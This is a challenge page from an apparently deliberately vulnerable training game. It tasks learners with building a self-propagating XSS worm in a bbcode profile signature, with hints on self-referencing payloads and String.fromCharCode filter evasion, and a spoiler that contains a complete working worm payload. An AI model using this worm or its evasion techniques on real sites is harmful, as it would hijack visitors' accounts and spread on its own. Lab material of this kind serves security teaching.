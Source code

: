 # XSS/CSRF Challenge 5

----------------------

Hey friend,

I've got a challenge for you.

Using the same concept from challenge 3, craft an XSS exploit in the profile signature that behaves like a worm, updating the profile signature of anyone who views an infected profile to also have the same exploit code on their profile.

To do this, you'll need to escape out of the bbcode parser and get javascript execution, use javascript to get a copy of the exploit code, and craft some javascript (perhaps using ajax) to submit a request to the server to update the user's profile signature.

I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can get the exploit on the admin's profile signature via this worm!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   You don't have jquery on the page, so you'll need to google how to do an ajax call with plain, vanilla javascript. You also need to gather the details about the call you need to do (get it from the Preferences / Profile Signature form page).
</details>

<details> 
  <summary>Click for hint 2</summary>
   To get a copy of the worm for the payload, have the code refer to itself!
   
   E.g. ```&lt;img src='' id='bob' onLoad='document.getElementById("bob").getAttribute("onLoad")'&gt;```
</details>

<details> 
  <summary>Click for hint 3</summary>
   You may find you need to use some characters in your payload that are difficult to escape properly (or just might be sanitized). To get around this, look at the javascript function String.fromCharCode.
</details>

<details> 
  <summary>Click for hint 4</summary>
   While constructing your payload, you may find this function useful:
   
   ```
String.prototype.toCharCode = function(){
    var str = this.split(''), len = str.length, work = new Array(len);
    for (var i = 0; i < len; ++i){
        work[i] = str[i].charCodeAt();
    }
    return work.join(',');
}
   ```
</details>

<details> 
  <summary>Click for hint 5</summary>
   If you run into trouble concatenating javascript strings with the plus symbol (+), try using the concat function instead!
   ```str1.concat(str2);```
</details>

<details> 
  <summary>Major Spoiler - one possible solution</summary>
   ```[img]http://www.nyan.cat/cats/original.gif" id='uniqueimgid' onLoad="var xmlhttp;if (window.XMLHttpRequest) xmlhttp=new XMLHttpRequest();else xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');xmlhttp.open('POST', 'preferences.php?action=profilesig2', true);xmlhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xmlhttp.send('newprofilesig='.concat(String.fromCharCode(91,105,109,103,93,104,116,116,112,58,47,47,119,119,119,46,110,121,97,110,46,99,97,116,47,99,97,116,115,47,111,114,105,103,105,110,97,108,46,103,105,102,34,32,105,100,61,39,117,110,105,113,117,101,105,109,103,105,100,39,32,111,110,76,111,97,100,61,34)).concat(document.getElementById('uniqueimgid').getAttribute('onLoad')).concat(String.fromCharCode(91, 47, 105, 109, 103, 93)));[/img]```
</details>